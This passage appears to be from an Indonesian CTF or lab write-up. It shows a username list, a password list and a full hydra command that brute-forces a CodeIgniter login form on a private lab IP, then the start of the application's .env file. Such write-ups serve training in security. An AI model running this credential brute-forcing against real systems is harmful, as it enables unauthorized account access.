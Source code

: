 #### 2.5. Finding the Secrets

* Diketahui bahwa aplikasi yang berjalan di port **8080** dan dibuat menggunakan **CodeIgniter 4** (PHP-based web framework).
* Ketika dibuka, muncul halaman login. Langsung saja saya coba brute force login http-form menggunakan informasi user dan password yang sudah diperoleh sebelumnya menggunakan tool: `hydra` dengan provide list user dan password yang telah diketahui sebelumnya.

{% tabs %}
{% tab title="users.txt" %}
```
ayyub
donghyuk_kim
yeji_hwang
azkira_kim
bryan_jung
nurul_lee
yuna_shin
hanbin_kim
jay_payakumbuah
```
{% endtab %}

{% tab title="pass.txt" %}
```
P@ssw0rd
T4da1mA!
Lzj*7BL%#fMhq
```
{% endtab %}
{% endtabs %}

* Berikut adalah full command hydra untuk bruteforce http form loginnya (bisa juga pakai NSE `http-form-brute` dari `nmap`).

```bash
hydra -L users.txt -P pass.txt -s 8080 10.1.2.232 http-post-form "/authenticate:username=^USER^&password=^PASS^:login_failed"
# You can check the path and login parameter by intercepting the traffic via burp suite.
```

* Terdapat beberapa file yang menarik perhatian saya, yaitu file `yourspace/.env` dan `yourspace/public/info.asp`.

{% tabs %}
{% tab title=".env" %}
```php
#--------------------------------------------------------------------
# Example Environment Configuration file
#
# This file can be used as a starting point for your own
# custom .env files, and contains most of the possible settings
# available in a default install.
#
# By default, all of the settings are commented out. If you want
# to override the setting, you must un-comment it by removing the '#'
# at the beginning of the line.
#--------------------------------------------------------------------

#--------------------------------------------------------------------
# ENVIRONMENT
#--------------------------------------------------------------------

CI_ENVIRONMENT = development

#--------------------------------------------------------------------
# APP
#--------------------------------------------------------------------
```